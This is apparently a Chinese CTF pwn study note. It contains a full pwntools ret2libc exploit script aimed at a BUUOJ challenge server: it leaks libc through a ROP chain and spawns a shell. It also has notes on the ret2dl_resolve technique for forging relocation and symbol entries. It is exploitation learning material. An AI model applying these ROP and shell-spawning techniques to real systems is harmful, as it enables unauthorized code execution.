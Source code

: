 ```python
from pwn import u64

from LibcSearcher import LibcSearcher

sh = remote("node5.buuoj.cn","29429")
sh.recvuntil(b'Please tell me:')
payload = b'a' * offset + p64(rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(
    stop_gadget)
sh.sendline(payload)
sh.recvuntil(b'a'*offset)
sh.recv(3)
func_addr = sh.recv(6)
puts_addr = u64(func_addr.ljust(8,b'\x00'))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
payload = b'a' * offset + p64(rdi_ret) + p64(binsh_addr) + p64(
    system_addr)
sh.sendline(payload)
sh.recv()
sh.interactive()
sh.close()
```



### 1、（8）ret2dl_resolve

[ret2dlresolve - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/ret2dlresolve/#64)



这里收集一下了：

#### 来自CTF Wiki的题：

##### Partial RELRO

###### **2015 年 xdctf 的 pwn200**

> 终极目标修改_dl_runtime_resolve参数，以达能直接运行我们想要的函数

> **由于只需要知道_dl_runtime_resolve函数的执行流程后，那么，是不是只需要此函数的第二个参数reloc_index就对应着一个函数，只需要控制对应地址的内容那么就可以控制解析的函数**
>
> 1. 控制程序执行_dl_runtime_resolve函数
>    				a、给定link_map和reloc_index两个参数
>       				b、或者给定plt0对应的汇编代码，在给个reloc_index即可
> 2. 控制reloc_index大小，方便指向伪造（控制的区域），伪造一个指定的重定位表项
> 3. 伪造重定位表项，使得重定位表项所指的符号也在自己控制范围内(即函数)
> 4. 伪造符号内容，从而使得符号对应的名称也在自己控制的范围内(即函数)	
